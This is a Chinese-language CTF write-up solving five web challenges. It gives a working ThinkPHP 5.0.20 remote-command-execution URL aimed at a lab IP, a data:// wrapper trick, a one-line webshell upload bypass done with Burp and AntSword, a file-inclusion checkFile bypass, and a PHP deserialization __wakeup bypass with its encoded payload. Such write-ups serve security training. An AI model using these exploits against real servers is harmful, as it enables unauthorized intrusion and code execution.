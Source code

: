 第一题

![2](./import/2.png)

发现该网站是ThinkPHP 框架搭建的于是我们搜索可得

![1](./import/1.png)

于是我们随机找一个版本访问

![3](./import/3.png)

可得该网展使用的V5.0.20版本

于是我们访问http://61.147.171.105:49314/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

![4](./import/4.png)

命令成功执行

于是我们使用cat命令打开flag可得

![5](./import/5.png)

成功拿到flag



第二题
![7](./import/7.png)

![8](./import/8.png)

由上图可知，data伪协议执行成功.

使用 `$_SERVER['CONTEXT_DOCUMENT_ROOT']` 变量，它返回当前运行 PHP 脚本所在上下文的文档根目录的绝对路径。

![9](./import/9.png)

发现当前运行 PHP 脚本所在的文档根目录的绝对路径`/var/www`

输出目录 `/var/www` 下所有以 `.php` 结尾的文件

![10](./import/10.png)

查看fl4gisisish3r3.php里面的内容

![11](./import/11.png)

拿到flag



第三题

![12](./import/12.png)

发现是文件上传题，于是我们可以通过上传一句话木马，然后通过蚁剑连接拿到flag

打开burpsuilte抓包将jpg文件改为php

![13](./import/13.png)

![14](./import/14.png)

显示上传成功

![15](./import/15.png)

成功拿到flag



第四题

![16](./import/16.png)

查看环境发现要我们访问source.php

![17](./import/17.png)

访问后查看代码又要我们访问hint.php

![18](./import/18.png)

访问后发下flag在fffllllaaaagggg下面

查看代码发现需要满足1.值为非空2.值为字符串3.能够通过checkFile()函数校验最后得

![19](./import/19.png)

拿到flag



第五题

打开环境发现

unserialize() 函数

preg_match()函数

![20](./import/20.png)

对它进行序列化操作

$Myon = new Demo("fl4g.php");
 $Myon = serialize($Myon);

最后一行是进行输出

echo $Myon;

![21](./import/21.png)

得到 O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}

$Myon = str_replace('O:4','O:+4',$Myon);        // 对正则匹配的绕过
$Myon = str_replace('1:{','2:{',$Myon);              // 对__wakeup()函数的绕过 

![23](./import/23.png)

继续查看代码发现还需进行base64编码

![22](./import/22.png)

得到TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

用get传参方式将值传给var可得

![24](./import/24.png)

拿到flag
